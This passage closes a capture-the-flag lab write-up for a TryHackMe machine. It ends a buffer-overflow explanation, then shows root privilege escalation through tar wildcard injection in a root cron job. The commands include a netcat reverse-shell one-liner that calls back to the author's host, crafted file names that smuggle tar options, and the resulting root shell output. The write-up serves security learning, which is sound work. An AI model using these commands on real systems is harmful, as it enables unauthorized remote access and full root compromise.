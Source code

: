 
This will fill the buffer with 72 'A's, then overwrite the EIP (Extended Instruction Pointer) with our little-endian address, In other words, we just told the program where to go next and what adress to execute.

Note that if we do not put `;cat` the adress will be reached and executed but it will exit when the execution is finished, so we will not be able to get an interactive shell.

<br>

<h2 id="Privilege-escalation">Privilege escalation - Cron job exploitation.</h2>

inspecting the crontab file we noticed a cron running everyminut.

```
spooky@anonymous-playground:~$ cat /etc/crontab|grep -v '#'
*/1 *   * * *	root	cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```
so what is the problem here ? the problem is that **tar** is suffering from argument pollutions, as **tar** contain some pretty interesting options that we can be abuseed to get code execution as root, you can read more in [paper](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt).

we injected a reverse shell into `privesc.sh`, and we passed some arguments as files in `/home/spooky` folder.
```
spooky@anonymous-playground:/home/spooky$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.123.226 9991 >/tmp/f' > privesc.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh privesc.sh"
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$ ls -lat
ls -lat
total 48
drwxr-xr-x 4 spooky spooky 4096 Sep 29 09:43  .
-rw-rw-r-- 1 spooky magna     1 Sep 29 09:43 '--checkpoint=1'
-rw-rw-r-- 1 spooky magna     1 Sep 29 09:43 '--checkpoint-action=exec=sh privesc.sh'
-rw-rw-r-- 1 spooky magna    80 Sep 29 09:42  privesc.sh
```

once the cron executed, we got a connection back to our host.

```
m3dsec@local:~/anonymousplayground.thm/files$ nc -vnlp 9991
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9991
Ncat: Listening on 0.0.0.0:9991
Ncat: Connection from 10.10.0.166.
Ncat: Connection from 10.10.0.166:60850.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

And We owned root !

<br>

<h2 id="Conclution">Conclution.</h2>

[Tryhackme](https://tryhackme.com/) is getting better everyday.

<br>
<br>
Best Regards

[m3dsec](https://github.com/m3dsec).

<br>
<br>

[back to main()](../../index.md)

<br>